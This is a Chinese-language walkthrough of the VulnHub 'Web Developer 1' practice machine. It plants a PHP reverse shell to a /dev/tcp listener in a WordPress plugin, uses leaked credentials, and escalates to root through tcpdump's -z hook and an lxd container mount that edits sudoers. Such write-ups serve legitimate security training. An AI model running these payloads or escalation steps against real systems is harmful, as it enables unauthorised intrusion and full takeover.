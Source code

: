 # Web Developer 1

下载地址：https://download.vulnhub.com/webdeveloper/WebDeveloper.ova

## 实战演练

找到靶场IP地址：`192.168.32.155`

![image-20220612151053323](../../.gitbook/assets/image-20220612151053323.png)

扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.155                                                                    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-12 03:28 EDT
Nmap scan report for 192.168.32.155
Host is up (0.0015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:7E:24:50 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.90 seconds
                                                              
```

浏览器访问80端口

![image-20220612152857392](../../.gitbook/assets/image-20220612152857392.png)

扫描web目录，找到系统是wordpress和`ipdata`目录

![image-20220612153131597](../../.gitbook/assets/image-20220612153131597.png)

![image-20220612153151167](../../.gitbook/assets/image-20220612153151167.png)

分析数据包找到一个账号密码：`webdeveloper/Te5eQg&4sBS!Yr$)wf%(DcAd`

```
log=webdeveloper&pwd=Te5eQg%264sBS%21Yr%24%29wf%25%28DcAd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.176%2Fwordpress%2Fwp-admin%2F&testcookie=
```

> log=webdeveloper&pwd=Te5eQg&4sBS!Yr$)wf%(DcAd&wp-submit=Log+In&redirect_to=http://192.168.1.176/wordpress/wp-admin/&testcookie=

![image-20220612153456206](../../.gitbook/assets/image-20220612153456206.png)

登录WP后台系统

![image-20220612154200386](../../.gitbook/assets/image-20220612154200386.png)

修改WP插件加入反弹shell代码，`Plugins -> Editor -> akismet.php`

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.32.130/7777 0>&1'"); ?>
```

访问http://192.168.32.155/wp-content/plugins/akismet/akismet.php

![image-20220612154421773](../../.gitbook/assets/image-20220612154421773.png)

找到wp-config.php，发现`webdeveloper`密码为`MasterOfTheUniverse`

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

```

SSH登录成功

![image-20220612154727813](../../.gitbook/assets/image-20220612154727813.png)

查看sudo列表

```
webdeveloper@webdeveloper:~$ sudo -l
[sudo] password for webdeveloper: 
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump

```

### tcpdump提权

```
webdeveloper@webdeveloper:~$ cat /tmp/bash 
cp /bin/bash /tmp/sh-1
chmod u+s /tmp/sh-1
webdeveloper@webdeveloper:~$ chmod +x /tmp/bash 

webdeveloper@webdeveloper:~$ sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/bash -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
16 packets received by filter
0 packets dropped by kernel

webdeveloper@webdeveloper:/tmp$ ./sh-1  -p
sh-1-4.4# id
uid=1000(webdeveloper) gid=1000(webdeveloper) euid=0(root) groups=1000(webdeveloper),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
sh-1-4.4# cd /root/
sh-1-4.4# ls
flag.txt
sh-1-4.4# cat flag.txt 
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290

```



### lxd提权

使用LinEnum.sh发现一条警告

![image-20220612160429040](../../.gitbook/assets/image-20220612160429040.png)

lxd初始化

```
webdeveloper@webdeveloper:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, "auto" or "none") [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, "auto" or "none") [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
```

初始化镜像

```
webdeveloper@webdeveloper:~$ lxc init ubuntu:16.04 test -c security.privileged=true
Creating test
```

挂载磁盘

```
webdeveloper@webdeveloper:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
Device whatever added to test
```

启动镜像并进入镜像访问任意文件

```
webdeveloper@webdeveloper:~$ lxc start test
webdeveloper@webdeveloper:~$ lxc exec test bash
root@test:~# ls
root@test:~# id
uid=0(root) gid=0(root) groups=0(root)
```

在这里，我们创建了一个 lxc 容器，为其分配了安全权限，并将整个磁盘挂载到`/mnt/root`.

```
root@test:/mnt/root# ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var
```

修改sudoers文件提权

```
root@test:/mnt/root# echo "%webdeveloper ALL=(ALL:ALL) ALL" >> /mnt/root/etc/sudoers
```

![image-20230208161336251](../../.gitbook/assets/image-20230208161336251.png)
